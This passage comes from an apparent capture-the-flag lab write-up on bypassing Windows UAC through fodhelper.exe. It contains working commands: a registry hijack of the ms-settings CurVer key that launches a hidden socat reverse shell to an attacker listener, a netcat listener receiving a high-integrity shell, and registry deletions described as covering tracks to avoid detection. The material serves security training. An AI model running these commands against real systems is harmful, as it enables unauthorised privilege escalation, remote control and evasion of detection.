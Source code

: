 And we get a high integrity reverse shell:  

Attacker's Shell

```shell-session
user@kali$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

To retrieve the fodhelper-curver flag, use your new shell to execute:

Administrator: Command Prompt

```shell-session
C:\> C:\flags\GetFlag-fodhelper-curver.exe
```

Note: Keep in mind that the flag will only be returned if you **successfully** bypassed UAC via fodhelper and only from the resulting high integrity shell via socat.

  

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following commands:

```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

**Note: Be sure to execute the given commands to avoid any artefact interfering with the following tasks.**


## Practical
---

Let's use the following, make sure to read everything from above to have a deeper understanding on how to bypass `Windows Defender`:

```
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:IP:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe
```
